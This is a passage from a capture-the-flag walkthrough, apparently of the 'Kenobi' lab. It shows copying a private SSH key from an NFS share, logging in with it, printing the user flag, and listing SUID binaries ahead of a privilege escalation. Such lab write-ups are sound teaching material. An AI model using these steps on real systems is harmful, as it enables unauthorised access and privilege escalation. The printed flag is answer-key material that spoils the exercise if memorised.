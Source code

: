 - Copy the **Private SSH key** in `/var/tmp` to local and then unmount the file system.

```bash
$ cp /mnt/kenobiNFS/tmp/id_rsa .

$ umount /mnt/kenobiNFS
```

### What is Kenobi's user flag (/home/kenobi/user.txt)?
- **Answer:** d0b0f3f53b6caa532a83915e19224899
- **Steps to Reproduce:** 

```bash
$ chmod 600 id_rsa 

$ ssh -i id_rsa kenobi@10.10.108.221
The authenticity of host '10.10.108.221 (10.10.108.221)' cant be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.108.221' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.

Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
```

---

## Privilege Escalation with Path Variable Manipulation

- **SUID bits** can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

```bash
kenobi@kenobi:~$  find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
```